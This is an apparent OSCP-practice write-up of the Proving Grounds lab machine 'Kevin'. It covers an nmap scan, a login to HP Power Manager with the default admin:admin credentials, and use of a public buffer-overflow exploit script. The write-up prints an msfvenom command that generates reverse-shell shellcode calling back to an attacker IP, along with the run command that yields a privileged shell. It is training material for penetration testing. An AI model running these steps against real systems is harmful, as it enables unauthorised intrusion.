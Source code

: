 ```yaml
---
title: Kevin
date: 2024-02-20
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Windows
  - Easy
---
```


# Recon
## NmapAutomator
```
nmapAutomator.sh --host 192.168.152.45 -t basic
```
![nmap](./nmap.png)

The basic nmapAutomator scan shows a HTTP port. This will be the first port that I will assess.

### HTTP - Port 80
We are presented a login page for HP Power Manager
- searching for default credentials shows `admin:admin`
![def-creds](./def-creds.png)

The credentials allows successful login
- the **Help** page shows **HP Power Manager 4.2 (Build 7)**
- using this information, I searched for valid exploits in the exploitdb database which presented a buffer overflow vulnerability
```
searchsploit hp power manager 
```
![searchsploit](./searchsploit.png)

The python script for universal buffer overflow looked the most promising so I downloaded the python script using `searchsploit -m windows/remote/10099.py`

# Exploitation
Script states that we need to replace the shellcode, and gives us a list of bad characters to avoid
- use the flag `-b` for bad characters that msfvenom will avoid
- the script also states that it is using msf encoder PexAlphaNum, with further research this leads me to this [offensive security website](https://www.offsec.com/metasploit-unleashed/alphanumeric-shellcode/) which uses `x86/alpha_mixed`
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.230 LPORT=4444 -f c -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" -e x86/alpha_mixed
```

Copy the shellcode string contents into the script right after `n00bn00b` and run the script using python2
```
python2 10099.py 192.168.152.45
```
![runpy](./runpy.png)
![root](./root.png)

The script successfully generated a privileged reverse shell. The flag is on the desktop of the administrator user.


# Summary

Reconnaissance:
- Utilized NmapAutomator to perform a basic scan on the target host (192.168.152.45), revealing an open HTTP port as the initial point of assessment

HTTP Service (Port 80):
- Discovered a login page for HP Power Manager upon accessing the HTTP service
- Identified default credentials (admin:admin) for successful login
- Found the version information (HP Power Manager 4.2 Build 7) and searched for exploits in the exploitdb database, revealing a buffer overflow vulnerability

Exploitation:
- Downloaded a promising Python script (10099.py) for the identified vulnerability
- Replaced the shellcode in the script and avoided bad characters using msfvenom with the -b flag
- Identified the use of the x86/alpha_mixed encoder and generated shellcode accordingly
- Executed the modified Python script to exploit the vulnerability, resulting in a privileged reverse shell

Post-Exploitation:
- Obtained root access via the successful execution of the exploit script
- Located the flag on the desktop of the administrator user
---
Join me for the next machine soon for more exciting challenges and security insights!

+10 points

